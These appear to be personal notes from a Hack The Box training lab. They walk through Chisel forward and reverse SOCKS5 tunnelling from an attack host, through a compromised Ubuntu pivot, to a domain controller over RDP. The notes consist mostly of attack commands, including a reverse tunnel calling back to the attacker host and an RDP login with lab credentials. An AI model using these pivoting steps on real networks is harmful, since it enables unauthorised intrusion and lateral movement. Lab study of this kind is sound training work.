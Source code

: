 ### Overview

Chisel is a TCP/UDP tunneling tool written in Go. It uses HTTP secured with SSH to tunnel traffic. This is useful in firewall-restricted environments where traditional port forwarding or VPNs may not be feasible. Chisel supports both **forward** and **reverse** SOCKS5 tunneling.

---

### Scenario

- **Internal Target (Domain Controller)**: `172.16.5.19`
- **Pivot Host (Compromised Ubuntu Server)**: `10.129.202.64` (External), `172.16.5.0/23` (Internal)
- **Attack Host (Kali or External Attacker System)**: `10.10.14.17`

The objective is to tunnel Remote Desktop Protocol (RDP) traffic from the attack host to the Domain Controller by leveraging the Ubuntu pivot host.

---

## ==Setup Phase (Attack Host)==

### Clone Chisel Repository

```Shell
wget -q https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_linux_amd64.gz

gunzip chisel_1.7.6_linux_amd64.gz 
```

### Build the Chisel Binary ==(Optional)==

```Shell
cd chisel
go build
```

### Transfer Chisel to Pivot Host

```Shell
z3tssu@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
```

---

## Chisel Forward SOCKS5 Tunneling

This method involves starting the Chisel server on the **pivot host** and connecting to it from the **attack host**.

### Start Chisel Server (Pivot Host)

```Shell
chmod +x chisel_1.7.6_linux_amd64

./chisel_1.7.6_linux_amd64 server -v -p 1234 --socks5
```

- Listens on `0.0.0.0:1234`
- Enables a SOCKS5 proxy on incoming connections

### Start Chisel Client (Attack Host)

```Shell
chmod +x ./chisel_1.7.6_linux_amd64

./chisel_1.7.6_linux_amd64 client -v 10.129.202.64:1234 socks
```

- Establishes an SSH-encrypted tunnel
- Local SOCKS5 proxy bound to `127.0.0.1:1080`

### Configure Proxychains (Attack Host)

Edit `/etc/proxychains.conf` to include:

```Plain
tail -n2 /etc/proxychains.conf

\#socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

### Access the Domain Controller via Proxychains (Attack Host)

```Shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

---

## Reverse SOCKS5 Tunneling

This method is useful when **inbound connections to the pivot host are blocked**. Instead, the **pivot host connects back to the attack host**.

### Start Chisel Server in Reverse Mode (Attack Host)

```Shell
z3tssu@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5
```

- Listens on `0.0.0.0:1234`
- Accepts reverse connections and enables a SOCKS5 proxy

### Start Chisel Client (Pivot Host)

```Shell
ubuntu@WEB01:~$ ./chisel client -v 10.10.14.17:1234 R:socks
```

- Initiates a reverse tunnel
- Redirects SOCKS5 traffic to internal network via the pivot

### Configure Proxychains (Attack Host)

```Plain
[ProxyList]
socks5 127.0.0.1 1080
```

### Access the Domain Controller via Proxychains (Attack Host)

```Shell
z3tssu@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

---